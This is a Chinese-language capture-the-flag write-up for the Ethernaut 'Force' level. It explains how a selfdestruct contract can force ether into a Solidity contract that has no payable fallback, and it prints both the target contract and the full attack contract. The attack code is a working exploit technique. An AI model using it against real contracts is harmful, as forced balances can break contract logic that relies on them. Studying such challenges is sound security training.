



# 7.Force

## 题目描述


## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

题目要求为该合约余额大于0，而源码中不存在 fallback函数，导致合约不能通过常规交易接收以太币。



我们在官方文档中可以看到一个函数介绍，可以在没有 fallback的情况下强制对合约进行转账




那我们的思路就是部署一个自毁合约，对这个合约转账后进行自毁对目标合约强制转入以太币


部署攻击合约

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

contract Attack{
    
    address public addr;
    
    function setAddr(address x) public {
        addr = x;
    }
    
    function kill() public{
        address payable desaddr = payable(address(addr));
        selfdestruct(desaddr);
    }
    receive() external payable {}
}
```

向攻击合约地址转入 0.001 ETH




向目标合约调用自毁函数


查看交易hash是否成功


目标合约成功被强制转入ETH